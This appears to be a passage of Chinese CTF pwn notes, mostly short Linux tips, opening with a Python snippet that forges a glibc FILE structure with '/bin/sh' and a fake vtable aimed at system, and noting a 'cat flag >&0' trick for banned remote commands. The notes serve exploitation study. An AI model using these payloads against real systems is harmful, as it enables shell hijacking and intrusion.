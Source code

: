 ```python
#32 bits
fake_file = "/bin/sh\x00" + "\x00" * 0x40 + p32(fake_lock_addr)
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(fake_vtable_addr - 0x44)

#64 bits
fake_file = "/bin/sh\x00" + '\x00' * 0x8
fake_file += p64(system) + '\x00' * 0x70
# the system can also be placed in other memory
fake_file += p64(fake_lock_addr)
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(buf_addr + 0x10 - 0x88) # fake_vtable_addr
```

## pwn 远端 命令被ban

尝试cat flag  >&0
/*输出重定向到stdin ...*/
stdin也是可以用来输出的。

## 系统调用表

[x64系统调用表][4]
[x86系统调用表][5]

## github提速

sudo vim /etc/hosts
添加 github.com,github.global.ssl.fastly.net 的ip

## qira

github 上安装
按照shellfish的师傅的pull改
[link][6]

## dmesg

dmesg用来显示内核环缓冲区（kernel-ring buffer）内容


## echo -e

"\033[{};{};{}m n132 \033[0m".format(字类型,字颜色,背景颜色)
sample:
"\033[1;31;40m n132>>> \033[0m"

## echo $?

用于输出上一个程序的退出码


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/